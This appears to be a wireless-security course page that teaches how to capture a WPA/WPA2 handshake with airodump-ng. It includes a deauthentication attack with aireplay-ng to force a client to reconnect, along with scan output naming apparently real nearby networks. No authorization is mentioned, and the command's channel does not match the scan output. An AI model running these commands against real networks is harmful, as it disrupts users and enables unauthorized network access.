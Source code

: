 ```yaml
---
title: Capturing the Handshake
type: default
layout: page
child: Cracking
fold: Network Cracking
---
```


If none of the methods previously shown worked, now you'd need to crack the
WPA/WPA2 encryption or try an Evil Twin Attack (we'll talk about this one
later). Now we are going to learn how to crack the WPA/WPA2 encryption.

Like I said before, when these encryption were designed, the developers knew
about the weaknesses in WEP and they made sure that they fixed them, therefore,
we cannot use the same method used in WEP to crack WPA and WPA2.

In WPA2, the keys are unique, temporary and much longer than they were in WEP,
therefore, the packets sent in the air contain no information that is useful for
us, it doesn't matter even if we capture one million packets, we can't use them
to crack the key. The only packets that contain useful information are the
handshake packets.

The handshake packets are four packets transferred between a client and the
router when the client connects to the network. In this lesson, I am going to
show you how to capture these packets and in the next lessons, we will see how
to use them to crack the WPA or WPA2 key.

First of all, as usual, you'd want to run _airodump-ng_ against all the networks
around you, I've already done that and got this output:

```bash

 CH  3 ][ Elapsed: 0 s ][ 2021-01-07 14:52                                         
                                                                                                                                                                                                      
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                                      
 CC:35:40:44:F3:69  -75        4        0    0  11  54e  WPA2 CCMP   PSK  Ismael y emi
 58:23:8C:84:78:F9  -71        3        1    0   5  54e  WPA2 CCMP   PSK  UNE_19D2
 9C:C8:FC:4D:01:8F  -72        5        4    1  11  54e. WPA2 CCMP   PSK  FamiliaH
 C4:27:95:62:EE:1E  -64       14        9    4  11  54e  WPA2 CCMP   PSK  HOME-EE1E
 9C:C8:FC:4D:10:CA  -19       12        7    0   6  54e. WPA2 CCMP   PSK  TIGO-7A54
 50:75:F1:EA:83:A2  -70        7        0    0  11  54e. WPA2 CCMP   PSK  PEDROJUAN

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

As I've done it so far, my target network is _TIGO-7A54_.

The first thing we are going to do is to run _airodump-ng_ on our target network
and store the data in a file exactly the same way that we used to do with WEP.
We are going to execute the following command:

```bash
airodump-ng --bssid [TargetNetworkBSSID] --channel [TargetNetworkChannel] --write wpa_handshake [InterfaceInMonitorMode]
```

If I replace the _[...]_ with the actual data of my target network, the command
would look like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 10 --write wpa_handshake wlp2s0mon
```

We are going to execute that command and airodump-ng will be executing against
our target network. Once _airodump-ng_ is working, all we have to do is sit down
and wait for the handshake to be captured. As I said before, the handshake is
sent when a client connects to the network, so we'll have to wait until a new
client connects to the network.

Once a new client connects to the network, we will capture the handshake and
_airodump-ng_ will tell us that the handshake has been captured. Alternatively,
we can use something we learned before which is a deauthentication attack, we
know that using that attack we can disconnect a client from the network so we
can capture the handshake in a very short period of time, in this way we won't
have to sit down and wait for someone to voluntarily connect to the network.

We already know how to perform a deauthentication attack, we use _aireplay-ng_
we use the _--deauth_ argument, then we specify a large number of packets to
keep the client disconnected for a long period of time, this time I am going to
set it just to 4, to only send four deauthentication packets so the client we
are going to deauthenticate will be disconnected for a very short period of time
so they won't even feel that they got disconnected but it would be enough for
the handshake to be send. Then, we will append the argument _-a_ to our command
to specify the BSSID of our target, then we'll use the argument _-c_ to specify
the MAC of the client we want to disconnect and finally, we will give it the
name of our interface in monitor mode, the entire command looks like this:

```bash
aireplay-ng --deauth 4 -a 9C:C8:FC:4D:10:CA -c D0:9C:7A:DD:B0:5D wlp2s0mon
```

And once this command is finished executing, the output of airodump-ng now will
look like this:

```bash
 CH  6 ][ Elapsed: 42 s ][ 2021-01-07 15:14 ][ WPA handshake: 9C:C8:FC:4D:10:CA
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:C8:FC:4D:10:CA  -21   0      423      251    2   6  54e. WPA2 CCMP   PSK  TIGO-7A54

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:C8:FC:4D:10:CA  D0:9C:7A:DD:B0:5D  -23   54e- 1e  9467      177  TIGO-7A54
```

As you can see in the upper-right section (_WPA handshake_) airodump-ng captured
and stored the handshake successfully.


